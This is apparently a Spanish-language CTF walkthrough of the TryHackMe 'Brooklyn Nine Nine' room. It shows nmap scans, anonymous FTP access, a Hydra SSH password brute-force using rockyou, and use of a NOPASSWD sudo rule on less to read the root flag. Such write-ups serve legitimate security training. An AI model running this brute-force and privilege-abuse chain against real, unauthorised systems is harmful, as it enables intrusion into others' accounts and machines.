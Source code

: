 ```yaml
---
layout: post
author: Temerio
---
```

![](https://i.imgur.com/wXKrQUO.png)
```bash
sudo nmap -p- -sSC --min-rate 5000 --open -vvv -n -Pn 10.10.241.206
```
```bash
Discovered open port 22/tcp on 10.10.241.206
Discovered open port 21/tcp on 10.10.241.206
Discovered open port 80/tcp on 10.10.241.206
```
___
Una vez descubierto que puertos abiertos tiene la maquina victima, hacemos un escaneo en profundidad.
```bash
sudo nmap -p21,22,80 -sCV -n -Pn 10.10.241.206 
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-18 14:35 EST
Nmap scan report for 10.10.241.206
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.225.45
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.19 seconds
```
___

Podemos ingresar al FPT(Port-21) en modo Anonimo asi que procedemos a ingresar y listar su contenido.
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/Brooklyn-nine-nine]
└─$ ftp 10.10.241.206
Connected to 10.10.241.206.
220 (vsFTPd 3.0.3)
Name (10.10.241.206:temerio): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
```
___

Dentro del File Transfer Protocol (FTP) se encuentra una nota para Jake, nos la descargamos a nuestra PC para posteriormente visualizar su contenido.
```bash
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.01 secs (19.4854 kB/s)
ftp> exit
221 Goodbye.
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/Brooklyn-nine-nine]
└─$ cat note_to_jake.txt
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
___

Visualizamos una nota con dos posibles usuarios `Amy y Jake`. Ya que amy le pide a Jake que cambie su contrase;a ya que es muy debil procederemos a Crackear su pass con el uso de Hydra.
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/Brooklyn-nine-nine]
└─$ hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.241.206 

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-18 15:18:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.241.206:22/
[22][ssh] host: 10.10.241.206   login: jake   password: [Deleted]
1 of 1 target successfully completed, 1 valid password found
```
___

Una vez obtenida la contraseña nos conectamos mediante secureshell(SSH).
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/Brooklyn-nine-nine]
└─$ ssh jake@10.10.241.206                        
jake@10.10.241.206's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$ 
```
___

Listamos los comandos de sudo con `sudo -l`.
```bash
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
___

Observamos que `/usr/bin/less` (el cual es un enlace simbolico) puede ser ejecutado por cualquier usuario, podremos usarlo para obtener la flag de root.
```bash
jake@brookly_nine_nine:/$ cd /home/holt/
jake@brookly_nine_nine:/home/holt$ cat user.txt 
[Deleted By Temerio]
```
___

Ahora con less solo leemos la flag de root.

```bash
jake@brookly_nine_nine:/$ sudo /usr/bin/less /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: [Deleted]

Enjoy!!
/root/root.txt (END)
```
Room Completada.
